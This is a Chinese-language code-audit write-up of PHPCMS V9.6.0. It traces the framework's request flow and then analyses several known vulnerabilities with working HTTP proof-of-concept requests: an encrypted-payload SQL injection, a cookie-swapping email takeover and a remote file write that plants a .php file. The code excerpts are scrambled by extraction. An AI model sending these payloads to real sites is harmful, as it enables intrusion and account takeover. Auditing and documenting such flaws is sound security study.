


0x00 前言 为了练习练习php代码审计，这次选中了PHPCMS V9.6.0，这个版本大致发布与2015年12月，因为该版本具有几个有趣的漏洞，大概在2017年4月爆出，审计下来应该收获不少
phpcms也是一个网站内容管理系统，官网已经访问不了了。目前看到phpcms还在维护版本为v9.6.4
其实这个CMS现在也没落了，但我在看 PHPCMS 的介绍（很多介绍都来自百度百科）时对它的历史还是小有兴趣。
PHPCMS最早于2005年发布，老版本一般以年份命名，最出名的老版本是PhpCMS2008
在2008年酷6网收购phpcms，2009年盛大收购酷6网，PHPCMS业务也被整体移交给盛大
2010年12月29号phpcms v9正式版发布，也就是本文要审计的系列
以上的具体时间可能有些出入，但可以大致看出PHPCMS活跃的年代。PHPCMS流行时，甚至一度和帝国、DedeCMS称为国内大三CMS
我甚至还在网上找到了PHPCMS V9的开发文档，可见它确实火过哈哈哈
开发文档：http://phpcms.p2hp.com/ https://www.w3cschool.cn/ph_cms/
PHPCMS 论坛：https://bbs.phpcms.pro/
安装过程就不记录了，记得选择 全新安装PHPCMS V9 ，因为这个我重新安装了一次。默认后台密码是phpcms/phpcms
0x01 全局分析 PHPCMS V9 的框架就比较成熟了，为了弄清PHPCMS的流程，来跟踪一下index.php的执行流程
index.php
index.php
index.php就是PHPCMS V9的入口文件，即使是后台应用也需要通过这个入口文件，可以看到在 PHPCMS 中入口文件只有3行代码了
定义 PHPCMS_PATH 常量，为PHPCMS的web根目录
加载 phpcms/base.php 文件，这是PHPCMS框架 的引导文件（注意了，PHPCMS是有一个明显的框架结构）。base.php会定义大量常量和 pc_base类
调用 pc_base类 中的 creat_app() 方法，初始化应用程序
1 2 3 4 <?php 'PHPCMS_PATH' , dirname(__FILE__ ).DIRECTORY_SEPARATOR);include PHPCMS_PATH.'/phpcms/base.php' ;
base.php
phpcms/base.php
index.php入口文件主要通过加载base.php去完成大量初始化工作，base.php主要做了以下工作
1、定义常量
2、定义 pc_base类 该类定义了很多静态方法如初始化应用程序，加载函数，加载类，自动加载等方法。通过 类名::属性/方法 的方式调用
这里记录一个小小的web开发知识点，很多程序喜欢用类名调用静态方法而不用实例化对象，这种方式占用内存低，效率更高
这里为了更好理解后面的代码，分析一下pc_base类 的常用静态方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 class pc_base public static function load_sys_class ($classname , $path = '' , $initialize = 1 return self ::_load_class($classname , $path , $initialize );public static function load_app_class ($classname , $m = '' , $initialize = 1 return self ::_load_class($classname , 'modules' .DIRECTORY_SEPARATOR.$m .DIRECTORY_SEPARATOR.'classes' , $initialize );public static function load_sys_func ($func return self ::_load_func($func ); public static function load_config ($file , $key = '' , $default = '' , $reload = false $path = CACHE_PATH.'configs' .DIRECTORY_SEPARATOR.$file .'.php' ;$configs [$file ] = include $path ;public static function load_model ($classname return self ::_load_class($classname ,'model' );
看了一圈下来感觉 pc_base类 其实也就是用于规划好的不同文件所在的位置，后面调用文件时直接去对应位置加载文件即可
3、加载公用函数库，配置文件 1 2 3 4 5 6 'global' );'extention' );'system' ,'errorlog' )
其中加载的函数库文件包括 global.func.php，该文件定义了一些安全相关函数：
remove_xss() - xss过滤函数，主要过滤一些敏感字符
safe_replace() - 过滤 %20, ' , ", <, > 等敏感符号
new_addslashes() - 底层是 addslashes() 实现
app初始化 上面提到入口文件中通过一行代码就实现了程序初始化，下面具体看看这行代码做了什么
在分析过程要有两个需要弄清的两个点：
1、程序最终将封装在实例化 application 类
creat_app() 就是实例化一个application类（具体代码下面看），下面为了方便称为app对象，程序从运行到结束会加载很多文件，都可以看做是app对象的操作
2、静态调用和实例对象分别做了什么？
静态调用只是实用类中的静态方法，不会影响类中的构造方法和属性；在phpcms中load_sys_class和其他方法具有实例化类对象的功能，从而加载的类会先执行一次构造方法，在下面的分析中要清晰的分析加载的类和自动实例化过程中要执行的构造方法
1、构造app对象
phpcms/base.php
creat_app() 实际就是加载 phpcms/libs/classes/application.class.php ，然后会自动对 application.class.php 中的 application 类实例化，这里我称实例化的对象为app对象
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 public static function creat_app (return self ::load_sys_class('application' );public static function load_sys_class ($classname , $path = '' , $initialize = 1 return self ::_load_class($classname , $path , $initialize );private static function _load_class ($classname , $path = '' , $initialize = 1 if (empty ($path )) $path = 'libs' .DIRECTORY_SEPARATOR.'classes' ;$key = md5($path .$classname );if (file_exists(PC_PATH.$path .DIRECTORY_SEPARATOR.$classname .'.class.php' )) {include PC_PATH.$path .DIRECTORY_SEPARATOR.$classname .'.class.php' ;if ($initialize ) {$classes [$key ] = new $name ;else {$classes [$key ] = true ;
application.class.php 定义了 application 类，该类的构造方法如下，构造方法即app对象 的实例化过程
1 2 3 4 5 6 7 8 9 class application public function __construct ($param = pc_base::load_sys_class('param' );'ROUTE_M' , $param ->route_m());'ROUTE_C' , $param ->route_c());'ROUTE_A' , $param ->route_a());$this ->init();
2、param类 app对象 首先需要加载 phpcms/libs/classes/param.class.php 的 param类，该类主要用于处理参数，其构造方法如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 class param public function __construct (if (!get_magic_quotes_gpc()) {$_POST = new_addslashes($_POST );$_GET = new_addslashes($_GET );$_REQUEST = new_addslashes($_REQUEST );$_COOKIE = new_addslashes($_COOKIE );$this ->route_config = pc_base::load_config('route' , SITE_URL) ? pc_base::load_config('route' , SITE_URL) : pc_base::load_config('route' , 'default' );public function route_m ($m = isset ($_GET ['m' ]) && !empty ($_GET ['m' ]) ? $_GET ['m' ] : (isset ($_POST ['m' ]) && !empty ($_POST ['m' ]) ? $_POST ['m' ] : '' );$m = $this ->safe_deal($m );if (empty ($m )) {return $this ->route_config['m' ];else {if (is_string($m )) return $m ;public function route_c (public function route_a (
可以看到GPC数据会被过滤，看到这里就可以放弃一些引号包裹的sql注入了
3、app对象的初始化 app 对象通过route_m(), route_c(), route_a() 分别用于获取 $_GET 或 $_POST 中的 m, c, a参数，在PHPCMS9中 “m”代表模型，“c”代表控制器，“a”代表事件
它们的值都有具体对应的文件，m模型 就是phpcms/modules/目录下的各个目录
c控制器 对应的就是 模型目录 下对应的php文件名或具体类名（文件名和类名一致）
a事件 对应这位类中定义的方法
app对象获取到mca后，通过 init() 方法完成app对象初始化工作
看到 init() 方法代码去加载对应文件，最终通过 call_user_func()去执行对应的代码
1 2 3 4 5 6 7 8 9 10 11 12 13 private function init ($controller = $this ->load_controller();if (method_exists($controller , ROUTE_A)) {if (preg_match('/^[_]/i' , ROUTE_A)) {exit ('You are visiting the action is to protect the private action' );else {array ($controller , ROUTE_A));else {exit ('Action does not exist.' );
到这里基本就掌握了PHPCMS V9的程序流程，如我们通过http://phpcms.test:8888/index.php?m=admin&c=badword&a=add就可以访问phpcms/modules/admin/badword.php 中 badword类 的 add() 方法
phpcms 首页执行流程 上面知道 phpcms 所有的程序最终将由 app 对象来执行并呈现，下面通过 phpcms 首页的执行流程为例做分析
在路由文件中 caches/configs/route.php 设定了默认的m，c，a为content，index，init，即网站的首页，根据默认 mca 值找到对应控制器的代码
1、控制器对象实例化
phpcms/modules/content/index.php
index控制器 实例化时构造方法获主要加载了content_model数据模型，初始化了 index 控制器 的基本属性数据模型对应文件为 phpcms/model/content_model.class.php，等下以这个为例分析 phpcms 的数据模型是怎么工作的
事件 对应的方法为 init()，似乎没有做什么事情，最后加载模板文件从而输出视图
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 class index private $db ;function __construct ($this ->db = pc_base::load_model('content_model' );$this ->_userid = param::get_cookie('_userid' );$this ->_username = param::get_cookie('_username' );$this ->_groupid = param::get_cookie('_groupid' );public function init (if (isset ($_GET ['siteid' ])) {$siteid = intval($_GET ['siteid' ]);else {$siteid = 1 ;$siteid = $GLOBALS ['siteid' ] = max($siteid ,1 );'SITEID' , $siteid );$_userid = $this ->_userid;$_username = $this ->_username;$_groupid = $this ->_groupid;include template('content' ,'index' ,$default_style );
2、数据模型 在看PHPCMS首页的数据模型前，我们需要知道PHPCMS的数据模型基类 是怎么写的
数据模型基类
phpcms/libs/classes/model.class.php
db_factory::get_instance() 把 model 类的配置读取到 db_factory 类中的配置db_factory::get_database() db_factory 类将获取到数据库连接，最终返回到 model 类的 $db 属性中
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 'db_factory' , '' , 0 );class model protected $db_config = '' ;protected $db = '' ;protected $db_setting = 'default' ;protected $table_name = '' ;public $db_tablepre = '' ;public function __construct (if (!isset ($this ->db_config[$this ->db_setting])) {$this ->db_setting = 'default' ;$this ->table_name = $this ->db_config[$this ->db_setting]['tablepre' ].$this ->table_name;$this ->db_tablepre = $this ->db_config[$this ->db_setting]['tablepre' ];$this ->db = db_factory::get_instance($this ->db_config)->get_database($this ->db_setting);
数据库的具体连接 上面说到 db_factory::get_database() 可以获取到数据库链接，看看具体代码
phpcms/libs/classes/db_factory.class.phps
get_database() 调用 connect()connect() 根据配置文件加载并实例化最终的数据库实现类 ，我这里是mysqli，将会加载phpcms/libs/classes/db_mysqli.class.php ，并实例化 db_mysqli 类$object 为 db_mysqli 类实例化对象，调用 open() 方法，并返回该对象
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 final class db_factory public function get_database ($db_name if (!isset ($this ->db_list[$db_name ]) || !is_object($this ->db_list[$db_name ])) {$this ->db_list[$db_name ] = $this ->connect($db_name );return $this ->db_list[$db_name ];public function connect ($db_name $object = null ;switch ($this ->db_config[$db_name ]['type' ]) {case 'mysqli' :$object = pc_base::load_sys_class('db_mysqli' );$object ->open($this ->db_config[$db_name ]);return $object ;
phpcms/libs/classes/db_mysqli.class.php
在 db_mysqli 中通过 open() 方法最终调用 connect() 实现数据库连接
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 final class db_mysqli public $link = null ;public function open ($config $this ->config = $config ;if ($config ['autoconnect' ] == 1 ) {$this ->connect();public function connect ($this ->link = new mysqli($this ->config['hostname' ], $this ->config['username' ], $this ->config['password' ], $this ->config['database' ], $this ->config['port' ]?intval($this ->config['port' ]):3306 );return $this ->link;
到这数据库就真正连接了，并且数据库连接对象最终会返回到数据模型基类 model::$db 中，model::$db->$link 则是数据库连接。所以继承数据模型基类只需要带好数据库配置就会自动获取数据库连接对象。
注意 model 类封装了一些基础sql操作，如 getone() 方法用于从数据库中获取一条数据，直接通过 model::getone()即可调用，而 model::getone() 其实是调用 model::$db->getone() 来实现，所以最终实现sql操作的是 db_mysqli 这种数据库实现类
首页的数据模型
phpcms/model/content_model.class.php
content_model 继承数据模型基类 model，初始化时首先读取了 caches/configs/database.php 的配置信息，包括数据账号密码然后执行了父类 模型基类 model 构造方法，从而实现数据连接，那么 content_model::$db 将是数据库连接对象
后面还加载了 phpcms/modules/content/classes/url.class.php ，并实例化了其中的url类放在 $this->url 中
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 'model' , '' , 0 );class content_model extends model public $table_name = '' ;public $category = '' ;public function __construct ($this ->db_config = pc_base::load_config('database' );$this ->db_setting = 'default' ;parent ::__construct();$this ->url = pc_base::load_app_class('url' , 'content' );$this ->siteid = get_siteid();
3、视图 在控制器事件中，最后一行代码 include template('content','index',$default_style); 是用于输出视图的，这里也简单关注一下phpcms是怎么输出视图的
phpcms/libs/functions/global.func.php
1 2 3 4 5 6 7 function template ($module = 'content' , $template = 'index' , $style = '' $template_cache = pc_base::load_sys_class('template_cache' );$compiledtplfile = PHPCMS_PATH.'caches' .DIRECTORY_SEPARATOR.'caches_template' .DIRECTORY_SEPARATOR.$style .DIRECTORY_SEPARATOR.$module .DIRECTORY_SEPARATOR.$template .'.php' ;if (……) $template_cache ->template_compile($module , $template , $style );return $compiledtplfile ;
小结 app对象根据m,c,a参数找到并加载 phpcms/modules/content/index.php 文件后，会实例化其中的控制器对象，控制器中会加载数据模型和视图。phpcms已具有了明显的MVC模式，能明显感受到的是 PHPCMS V9 在框架上相比于其他CMS成熟了不少
0x02 漏洞审计 sql注入 上面已经知道 phpcms 会使用 addslases() 来全局过滤GPC数据，可以很好的防御在sql语句中使用引号包裹的变量
代码分析
phpcms/modules/content/down.php
通过Seay代码审计系统 扫描结果是显示该文件只存在一个变量覆盖的问题，仔细一看，通过变量覆盖还可以造成SQL注入，下面仔细研究一下
$id 将通过 db->get_one() 执行sql查询可以注意到当 isset($i)==true 时，$id=intval($i)，这里 $id 会被强制转换成数字类型
但巧在这里存在一个 parse_str($a_k)，如果 $a_k 可控，便可以通过覆盖变量控制 $i 和 $id 的值，绕过 intval() 转换
$a_k 来自 $_GET['a_k']，可控，但我们知道全局会对GPC参数addslashs()过滤。这里 $a_k 传入 parse_str() 前，还会经过 sys_auth($operation='DECODE') 方法解密，巧了，这里解密操作证明 $a_k 本来是加密字符串，加密字符串岂不是又可能会绕过全局 addslashs() 过滤，那我们现在只需要构造加密的 payload 就可以利用这个漏洞了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 class down private $db ;function __construct ($this ->db = pc_base::load_model('content_model' );public function init ($a_k = trim($_GET ['a_k' ]);$a_k = sys_auth($a_k , 'DECODE' , pc_base::load_config('system' ,'auth_key' ));unset ($i ,$m ,$f );$a_k );if (isset ($i )) $i = $id = intval($i );$rs = $this ->db->get_one(array ('id' =>$id ));
加密payload
phpcms/libs/functions/global.func.php
sys_auth($string,$operation) 是一个加密解密函数，加密算法比较复杂就不研究了，需要知道的是当 $operation=='DECODE'，传入的值会被解密，$operation=='ENCODE' 时，传入的值会被加密。现在我们需要将我们的 payload 加密，被上面的代码解密后才能利用漏洞
在看 sys_auth() 代码时发现在加密解密过程中会使用一个密钥，密钥来自配置文件中 auth_key 的值，每个PHPCMS程序的 auth_key 值不同，我们想控制加密内容一是获取程序的auth_key值，然后复制程序的加密算法，加密我们的payload；或者我们在程序中寻找提供 sys_auth() 加密的功能，借用程序的功能加密我们的payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 function sys_auth ($string , $operation = 'ENCODE' , $key = '' , $expiry = 0 $ckey_length = 4 ;$key = md5($key != '' ? $key : pc_base::load_config('system' , 'auth_key' ));if ($operation == 'DECODE' ) {if ((substr($result , 0 , 10 ) == 0 || substr($result , 0 , 10 ) - time() > 0 ) && substr($result , 10 , 16 ) == substr(md5(substr($result , 26 ).$keyb ), 0 , 16 )) {return substr($result , 26 );else {return '' ;else {return $keyc .rtrim(strtr(base64_encode($result ), '+/' , '-_' ), '=' );
寻找程序中使用 sys_auth() 加密的地方又是一个复杂的过程，具体参考大佬 https://mochazz.github.io/ 的相关博客，下面我只简单记录下过程
在 param.class.php 中找到 sys_auth() 可控，代码如下
phpcms/libs/classes/param.class.php
set_cookie() 传入参数 $var, $value
$value 的值会通过 sys_auth 加密，并以cookie的形式发送客户端，利用这个功能点可以很好的加密payload
1 2 3 4 5 6 7 8 9 10 11 12 13 14 class param public static function set_cookie ($var , $value = '' , $time = 0 $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0 );$s = $_SERVER ['SERVER_PORT' ] == '443' ? 1 : 0 ;$var = pc_base::load_config('system' ,'cookie_pre' ).$var ;$_COOKIE [$var ] = $value ;if (is_array($value )) {foreach ($value as $k =>$v ) {$var .'[' .$k .']' , sys_auth($v , 'ENCODE' ), $time , pc_base::load_config('system' ,'cookie_path' ), pc_base::load_config('system' ,'cookie_domain' ), $s );else {$var , sys_auth($value , 'ENCODE' ), $time , pc_base::load_config('system' ,'cookie_path' ), pc_base::load_config('system' ,'cookie_domain' ), $s );
下面继续寻找 set_cookie() 的可控利用
phpcms/modules/attachment/attachments.php
attachments 类的 swfupload_json() 方法具有可控的 set_cookie() ，但 attachments 类的构造方法中有一个登录验证，验证条件是具有一个可sys_auth()解密值，其实可以在 phpcms/modules/wap/index.php 中获取到这样的值绕过登录，该文件的代码这里就不研究了
set_cookie($var, $value, $time) 的 $value 在 upload_json() 中为 $json_str，通过 $_GET['src'] 可控
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 class attachments private $att_db ;function __construct ('global' );$this ->userid = $_SESSION ['userid' ] ? $_SESSION ['userid' ] : (param::get_cookie('_userid' ) ? param::get_cookie('_userid' ) : sys_auth($_POST ['userid_flash' ],'DECODE' ));if (empty ($this ->userid)){'please_login' ,'' ,'member' ));public function swfupload_json ($arr ['aid' ] = intval($_GET ['aid' ]);$arr ['src' ] = safe_replace(trim($_GET ['src' ]));$arr ['filename' ] = urlencode(safe_replace($_GET ['filename' ]));$json_str = json_encode($arr );$att_arr_exist = param::get_cookie('att_json' );$att_arr_exist_tmp = explode('||' , $att_arr_exist );if (is_array($att_arr_exist_tmp ) && in_array($json_str , $att_arr_exist_tmp )) {return true ;else {$json_str = $att_arr_exist ? $att_arr_exist .'||' .$json_str : $json_str ;'att_json' ,$json_str );return true ;
注意$_GET['src']会经过 safe_replace() 过滤，这里过滤时一次性的，也很好绕过
通过上面的分析可能会有点绕，但大体清楚了我们其实可以在前台获取到加密的payload，下面将来正向利用一下
漏洞利用 为了梳理逻辑，先画一下流程图
1）获取用户认证id
1 GET /index .php?m=wap&c =index &a =init&siteid =1
发送poc后，可以在cookie中获取一个sys_auth()加密的siteid值

2）获取加密payload
构造payload的过程十分关键，考虑的条件比较多，需要十分细心，这里还有以下几个要点要注意下
我们要使用 & 等符号构造payload，因为parse_str()通过 & 来解析变量，在url中要对特殊符号编码
这里对单引号做了url编码为%*27，目的是绕过全局addslashs()过滤，这里记录一个知识点，==parse_str()在解析字符串时会自动url解码==，所以%*27被safe_replace()过滤为%27，在parse_str()中最终解析为单引号 '注入到数据库从而引发sql注入
1 2 3 POST /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id%3D%*27%20and%20updatexml(1%2Cconcat(1%2C(user()))%2C1)%23%26m%3D1%26modelid%3D2%26f%3D3%26catid%3D4 HTTP/1.1 userid_flash =b899 lJoDFE29 t7 SOemtSwDaOZMoD2 Fbr-Le6 AHJK
3）发送payload
1 GET /index.php?m=content&c=down&a=init&a_k=f28d6EbHk-z-GPWT_BO5vtYwicatFNGnKrJe4afAjmGAjLx3h8HJi1-MHOO4fSjZXfg4mTiE8AQphhuGMbY85caXo5r3We6E0Izb52GXqr3LBgfQvqeHYcaPoEMWGai0osZ5HkS1dYZ94aQx2bnf32D8isXRc6_6fOgptzngztLPpXu6lQ HTTP/1.1

任意邮箱修改 参考：https://www.cnblogs.com/yangxiaodi/p/6890298.html 这个漏洞应该是误判，忽略了身份验证的代码。不过mysql中字符串数据转整数数据的知识点还是值得学习学习
这相当于一个逻辑漏洞，在审计这种漏洞时，需要对程序的逻辑十分清楚，我习惯画一个流程图来梳理逻辑
phpcms/modules/member/index.php
$_username、$_userid 、$ssouid 来自于get_cookie()，这一个获取并解密cookie值的函数，如果要控制这几个参数，我们需要能获取对应的加密值
然后会进入 send_newmail() 中唯一关键的身份认证，验证userid和username是否匹配，我看有人挖到的漏洞没有这几行代码。从而造成漏洞。但这几行代码存在的话将，我认为漏洞也就很难利用了。如果想通过认证，必须要知道userid和username的对应关系，然后需要知道指定的userid和username加密值。这两个条件似乎都不太好搞。下面是认为这几行代码不存时产生的漏洞
$neweamil 代码要修改的新邮箱，可控。会经过 ps_checkemail() 方法检测 $neweamil 在数据库member表中的情况，如果$neweamil 在member表中不存在，则**ps_checkemail()返回1，代表这个新邮箱可用；如果 $neweamil 在member表中存在，则 ps_checkemail()**返回-1，代表新邮箱地址被占用，需要进一步判断
$neweamil 通过验证后，就会进入修改用户邮箱的环节，前提是sendmail()发送邮箱成功，本地测试为了方便没有配置邮箱，而是修改了程序代码，保证代码正常执行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 public function send_newmail ($_username = param::get_cookie('_regusername' );$_userid = param::get_cookie('_reguserid' );$_ssouid = param::get_cookie('_reguseruid' );$newemail = $_GET ['newemail' ];$r = $this ->db->get_one(array ('userid' =>intval($_userid )));if ($r [username]!=$_username ){return '2' ;$this ->_init_phpsso();$status = $this ->client->ps_checkemail($newemail );if ($status ==-1 ) {}if (sendmail($newemail , L('reg_verify_email' ), $message )){$this ->db->update(array ('email' =>$newemail ), array ('userid' =>$_userid ));$this ->client->ps_member_edit($_username , $newemail , '' , '' , $_ssouid );$return = '1' ;else {$return = '2' ;
漏洞利用：
1）注册一个名为 1jelly 的用户
在cookie中获取到加密值
1 2 cIFPl__username =8 d00 IEf52 ee17 nwPcUSvKfVhc9 OxLqdNZ7 n0 kpGFuSEMRSE;cIFPl__userid =5 caaEyjeO_LOuhAb7 YF4 _7 -fexyHawM0 lvENOK2 W;
2）把username的加密值放到cookie中作为userid发送
1 cIFPl__userid =8 d00 IEf52 ee17 nwPcUSvKfVhc9 OxLqdNZ7 n0 kpGFuSEMRSE
这样userid在解密时值为 1jelly，最后执行的sql语句为：
1 UPDATE `phpcmsv9`.`v9_member` SET `email`= 'test1@qq.com' WHERE `userid` = '1jelly'
这里也有一个小知识点，虽然userid在数据库中是1jelly，但mysql会自动转换1jellly为整数1，这样userid为1的用户邮箱就被获取了，在phpcms可以通过邮箱修改密码，这个漏洞最终将导致任意密码修改
任意文件写入漏洞
phpcms/modules/member/index.php
1 2 3 4 5 6 7 8 9 10 public function register ($member_setting = getcache('member_setting' );if (isset ($_POST ['dosubmit' ])) {$userinfo ['modelid' ] = isset ($_POST ['modelid' ]) ? intval($_POST ['modelid' ]) : 10 ;if ($member_setting ['choosemodel' ]) {$member_input = new member_input($userinfo ['modelid' ]);$user_model_info = $member_input ->get($_POST ['info' ]);
caches/caches_model/caches_data/member_input.class.php
get()方法中有一个通过 $func() 调用类中的其他方法，而 $func 最终来自 model_field_$_POST['modelid'].cache.php 中 $field['formtype']，翻了一下对应文件，包含了当前类的所有方法，所以通过get()方法可以调用当前类的任意方法
而 member_input 类中就 editor() 方法可以利用，其中又调用了download() 方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 class member_input function __construct ($modelid $this ->db = pc_base::load_model('sitemodel_field_model' );$this ->fields = getcache('model_field_' .$modelid ,'model' );'attachment' ,'' ,0 );$this ->attachment = new attachment('content' ,'0' ,$this ->siteid);function get ($data if (is_array($data )) {foreach ($data as $field =>$value ) {$func = $this ->fields[$field ]['formtype' ];if (method_exists($this , $func )) $value = $this ->$func ($field , $value );$info [$field ] = $value ;return $info ;function editor ($field , $value $setting = string2array($this ->fields[$field ]['setting' ]);$enablesaveimage = $setting ['enablesaveimage' ];$site_setting = string2array($this ->site_config['setting' ]);$watermark_enable = intval($site_setting ['watermark_enable' ]);$value = $this ->attachment->download('content' , $value ,$watermark_enable );return $value ;
跟进 download() 代码
phpcms/libs/classes/attachment.class.php
attachment 类在实例化__construct() 时已经确定了 upload_func = ‘copy’ ，在后面通过 $upload_func 就会调用 copy() 方法，是文件写入地方。但在写入前，还有一大堆处理需要分析
传入 download() 的 $fidld=’content’，$value为用户post数据，可控
download() 通过正则表达式等限制了 $value 必须为 .jpg 这样的后缀，这样我们写入的文件就没有危害了
但后面存在一个 fillurl() 会帮我们格式化正则匹配的连接，如去掉#号后面的内容，这样我们便可以通过如：1.php#1.jpg的方式绕过前面正则的限制
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 class attachment function __construct ($module ='' , $catid = 0 ,$siteid = 0 ,$upload_dir = '' $this ->upload_root = pc_base::load_config('system' ,'upload_path' );$this ->upload_func = 'copy' ;function download ($field , $value ,$watermark = '0' ,$ext = 'gif|jpg|jpeg|bmp|png' , $absurl = '' , $basehref = '' $string = new_stripslashes($value );$remotefileurls = array ();if (!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext ))\\2/i" , $string , $matches )) return $value ;foreach ($matches [3 ] as $matche )if (strpos($matche , '://' ) === false ) continue ;$uploaddir );$remotefileurls [$matche ] = $this ->fillurl($matche , $absurl , $basehref );foreach ($remotefileurls as $k =>$file ) {if (strpos($file , '://' ) === false || strpos($file , $upload_url ) !== false ) continue ;$filename = fileext($file );$filename = $this ->getname($filename );$newfile = $uploaddir .$filename ;$upload_func = $this ->upload_func;if ($upload_func ($file , $newfile )) {……}function fillurl ($surl , $absurl , $basehref = '' $pos = strpos($surl ,'#' );if ($pos >0 ) $surl = substr($surl ,0 ,$pos );function getname ($fileext return date('Ymdhis' ).rand(100 , 999 ).'.' .$fileext ;
通过分析我们还是能写入文件，只是文件名是随机生成的，需要我们去猜测，总结目录文件名的生成规律如下：
1 2 3 4 5 文件名：1 .php'Y/md/' )/date('Ymdhis' ).rand(100 , 999 ).'.' .php;'Y/md/' ),date('Ymdhis' ) 和时间有关，唯一难确定的就是秒数，不过猜测也就是几秒之间徘徊100 ,999 ) 随机数3 位，还算好猜测，所以最终只需要爆破4 位数就能获取到写入的文件名
漏洞利用poc，注意对特殊符号url编码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 POST /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1 Host : phpcms.test:8888User-Agent : Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0Accept : text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language : zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding : gzip, deflateContent-Type : application/x-www-form-urlencodedContent-Length : 294Origin : http://phpcms.test:8888Connection : closeReferer : http://phpcms.test:8888/index.php?m=member&c=index&a=register&siteid=1Cookie : PHPSESSID=20cb7d807c07acf2cf5d3172b50bb10c; XDEBUG_SESSION=XDEBUG_ECLIPSEUpgrade-Insecure-Requests : 1siteid =1 &modelid=1 &username=111 &password=123456 &pwdconfirm=123456 &email=111 %40 qq.com&nickname=111 &info%5 Bcontent%5 D=href%3 Dhttp%3 A%2 F%2 Ftest.test%3 A8888 %2 Ftest%2 F1 .php%231 .jpg&dosubmit=1
最后总结一下，该漏洞的审计过程也是很复杂的，需要发现一条完整的利用链，虽然最后利用起来也不是很方便，但发现这种漏洞也是审计的意义
后台敏感内容写入
phpsso_server/phpcms/modules/admin/system.php
uc() 会通过$POST传入data[]数组，并将data[]的键值写入到uc_config.php文件中，我们便可以把任意内容写入system.php中，从而获取服务器权限。但需要注意的是，尽量把exp写在data[]的键中，在全局分析中我们知道对外出传入数组的值有过滤
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 public function uc (if (isset ($_POST ['dosubmit' ])) {$data = isset ($_POST ['data' ]) ? $_POST ['data' ] : '' ;$uc_config = '<?php ' ."\ndefine('UC_CONNECT', 'mysql');\n" ;foreach ($data as $k => $v ) {$uc_config .= "define('" .strtoupper($k )."', '$v ');\n" ;$uc_config_filepath = CACHE_PATH.'configs' .DIRECTORY_SEPARATOR.'uc_config.php' ;$uc_config_filepath , $uc_config );
POC如下：
